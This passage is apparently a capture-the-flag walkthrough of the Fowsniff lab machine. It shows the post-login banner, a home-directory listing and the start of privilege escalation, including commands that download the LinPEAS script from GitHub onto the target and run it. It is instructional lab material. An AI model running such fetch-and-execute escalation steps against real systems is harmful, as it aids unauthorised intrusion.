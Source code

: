 ```bash
.ohdddddddddddddho:                  Delivering Solutions

   ****  Welcome to the Fowsniff Corporate Server! **** 

              ---------- NOTICE: ----------

 * Due to the recent security breach, we are running on a very minimal system.
 * Contact AJ Stone -IMMEDIATELY- about changing your email and SSH passwords.

baksteen@fowsniff:~$
```

We're in! Let's explore:

```bash
pwd
ls -la
```

**Output:**
```bash
/home/baksteen
total 20
drwxr-xr-x 4 baksteen baksteen 4096 Mar 13  2018 .
drwxr-xr-x 4 root     root     4096 Mar  9  2018 ..
-rw-r--r-- 1 baksteen baksteen  220 Sep  1  2015 .bash_logout
-rw-r--r-- 1 baksteen baksteen 3771 Sep  1  2015 .bashrc
drwx------ 2 baksteen baksteen 4096 Mar 13  2018 .cache
drwxr-xr-x 5 baksteen baksteen 4096 Mar 13  2018 Maildir
-rw-r--r-- 1 baksteen baksteen  655 May 16  2017 .profile
-rw-r--r-- 1 baksteen baksteen   78 Mar 13  2018 term.txt
```

Let's check the user flag:
```bash
cat term.txt
```

This isn't the main flag - we need to escalate to root privileges.

## Phase 5: Privilege Escalation

### What is Privilege Escalation?
**Privilege escalation** is the process of gaining higher-level permissions on a system. We currently have access as the user `baksteen`, but we want root access to get the final flag.

### Step 9: System Enumeration with LinPEAS

**What is LinPEAS?** LinPEAS (Linux Privilege Escalation Awesome Script) is an automated tool that scans for common privilege escalation vectors on Linux systems.

Let's download and run LinPEAS:

```bash
# Download LinPEAS to the target machine
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh

# Make it executable
chmod +x linpeas.sh

# Run it
./linpeas.sh
```
